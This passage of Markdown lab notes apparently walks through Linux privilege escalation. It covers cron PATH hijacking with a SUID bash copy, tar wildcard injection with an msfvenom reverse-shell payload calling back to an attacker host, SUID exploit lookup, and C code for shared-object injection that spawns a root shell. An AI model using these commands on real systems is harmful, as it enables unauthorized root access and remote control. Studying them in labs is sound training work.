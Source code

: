 ### PATH Environment Variable 
+ Notice that PATH first hits `/home/user`.
+ Create a file called overwrite.sh in user's home directory.
+ Add the following to it:
	```
	#!/bin/bash

	cp /bin/bash /tmp/rootbash
	chmod +xs /tmp/rootbash
	```
+ Make the script executable using chmod.
+ Wait for sometime and then execute `/tmp/rootbash -p` to get root access.

### Wildcards
+ There is another script run by cron job as root. 
+ The script runs a tar command with a wildcard in home directory.
+ Look up tar on GTFOBins.
+ Use msfvenom to craft and build payload:
	- `msfvenom -p linux/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 -f elf -o shell.elf`
+ Transfer payload and make sure it has execute permissions.
+ Create following two files:
	- `touch /home/user/--checkpoint=1`
	- `touch /home/user/--checkpoint-action=exec=shell.elf`
+ The tar command will include them as valid options at runtime.
+ Setup netcap listener on attacker machine to capture root shell.

## SUID/SGID Executables
### Known Exploits
+ Find SUID binaries: `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -la {} \; 2>/dev/null`
+ Lists exim-4.84-3, use searchsploit to look for vulnerabilities.
+ Promising know vuln -> CVE-2016-1531
+ Run exploit on victim to gain root.

### Shared Object Injection
+ The binary `suid-so` is vulnerable to shared object injection.
+ Run the binary.
+ Run strace using `strace suid-so 2>&1 | grep -iE "open|access|no such file"`
+ The executable tries to load a library in home directory.
+ Create a `.config` directory.
+ Compile C code to spawn a shell:
	- `gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c`
		```
		#include <stdio.h>
		#include <stdlib.h>

		static void inject() __attribute__((constructor));

		void inject() {
			setuid(0);
			system("/bin/bash -p");
		}
		```
+ Execute the suid-so binary again to get a root shell.
